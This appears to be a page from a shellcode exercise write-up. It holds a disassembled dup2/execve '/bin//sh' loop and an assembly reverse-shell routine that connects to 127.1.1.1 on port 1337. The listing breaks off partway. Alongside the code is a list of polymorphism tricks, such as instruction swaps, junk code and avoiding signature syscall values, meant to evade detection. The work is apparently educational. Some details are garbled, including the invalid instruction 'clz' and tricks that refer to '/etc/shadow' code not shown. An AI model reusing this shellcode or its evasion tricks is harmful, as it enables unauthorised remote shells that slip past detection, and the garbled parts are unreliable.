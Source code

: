 ```ASM
* 0000002f <loop>:
* 2f:   b0 3f                mov    al,0x3f
* 31:   cd 80                int    0x80
* 33:   49                   dec    ecx
* 34:   79 f9                jns    2f <loop>
* 36:   b0 0b                mov    al,0xb
* 38:   41                   inc    ecx
* 39:   89 ca                mov    edx,ecx
* 3b:   52                   push   edx
* 3c:   68 2f 2f 73 68       push   0x68732f2f
* 41:   68 2f 62 69 6e       push   0x6e69622f
* 46:   89 e3                mov    ebx,esp
* 48:   cd 80                int    0x80
```

## Tricks

Polymorphism tricks will be:
 * Change the string *//etc/shadow'*
 * Do not put 0x17 or 0xf into al which are known for calling setuid or chmod.
 * *xchg   edx,ebx* (87 da) is replaced by *cdq* (99) which is smaller. CQD extend EAX sign to EDX. 
 * *xor edx, edx* will be replace by the same instruction. This will set the shellcode shorter.
 * Do not set 0xb (execve) or 0x3f (dup2) in AL. Times syscall value (0x2b) will be put in AL before being changed.
 * Add junk code between pushing IP and port

## Polymorphism

```ASM
global _start

section .text
_start:
 push   0x66
 pop    eax
 push   0x1
 pop    ebx
 cdq
 push   edx
 push   ebx
 push   0x2
 mov    ecx,esp
 int    0x80
 xchg   edx,eax
 mov    al,0x66
 push   0x0101017f
 inc eax ;junk
 clz ;junk
 clc ;junj
 push word 0x3905 
 dec eax ;junk
 inc    ebx
 push   bx
 mov    ecx,esp
 push   0x10
 push   ecx
 push   edx
 mov    ecx,esp
 inc    ebx
 int    0x80
 push   0x2
 pop    ecx
 cdq
```
